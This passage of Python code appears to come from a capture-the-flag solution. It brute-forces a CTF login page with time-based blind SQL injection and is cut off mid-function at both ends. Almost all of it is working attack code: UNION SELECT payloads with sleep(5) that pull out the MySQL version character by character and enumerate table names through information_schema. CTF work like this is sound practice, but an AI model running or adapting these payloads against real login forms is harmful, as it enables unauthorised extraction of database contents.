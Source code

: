 ```python
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break
       
def bf_mysql():
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"

    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Mysql name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL AND (select sleep(5) from dual where BINARY version() like '{name}%') #"
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
            output = session.post(url, data=data, allow_redirects=False)
            time_finished = time.time()
            time_taken = time_finished - time_started
            if time_taken < 5:
                pass
            elif char == "%":
                pass
            else:
                phew += char
                break

def bf_table():
    # I need to know web tbh this portion doesn't give full name so I guessed the remainng part :P
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"

    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Table name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL and (select sleep(5) from dual where (select table_name from information_schema.tables where table_schema=database() and table_name like '%{name}%' limit 0,1) like '%') #"
            data = {
                "username": payload,
                "password": "pass"
            }
            time_started = time.time()
```